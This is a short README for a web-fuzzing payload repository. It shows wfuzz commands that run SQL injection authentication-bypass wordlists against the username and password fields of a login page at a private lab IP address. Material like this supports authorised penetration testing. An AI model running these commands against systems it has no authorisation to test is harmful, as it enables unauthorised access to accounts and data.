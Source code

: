 # web-fuzzing-payloads
Use this payloads to web fuzzing test  

Usage

web-fuzzing-payloads/sqli/auth_bypass_sqli.txt

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=FUZZ&password=sa1"
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_sqli.txt -d "username=sayaa&password=FUZZ"
wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -z file,auth_bypass_sqli.txt -z file,auth_bypass_sqli.txt -d "username=FUZZ&password=FUZ2Z"

web-fuzzing-payloads/sqli/auth_bypass_with_hash_check_sqli.txt

wfuzz -c --hh=10 -u http://172.16.76.158:8080/login.php -w auth_bypass_with_hash_check_sqli.txt -d "username=FUZZ&password=password123"
